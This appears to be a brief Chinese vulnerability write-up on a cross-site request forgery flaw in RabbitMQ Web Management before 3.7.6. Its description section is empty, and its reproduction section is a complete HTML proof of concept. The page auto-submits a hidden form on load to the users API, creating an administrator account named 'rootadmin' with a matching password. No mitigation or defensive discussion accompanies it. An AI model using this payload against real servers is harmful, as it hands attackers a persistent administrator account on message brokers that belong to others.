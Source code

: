 RabbitMQ Web管理csrf漏洞
========================

一、漏洞简介
------------

二、漏洞影响
------------

RabbitMQ Web Management \< 3.7.6

三、复现过程
------------

    <html> 
    <h2>Add RabbitMQ Admin</h2>
    <body>
    <form name="rabbit" id="rabbit" action="https://www.0-sec.org/api/users/rootadmin" method="POST">
    <input type="hidden" name="username" value="rootadmin" />
    <input type="hidden" name="password" value="rootadmin" />
    <input type="hidden" name="tags" value="administrator" />
    <input type="submit"  value="save" />
    </form>
    <script>
      window.onload = rabbit.submit()
    </script>
    </body>
    </html>
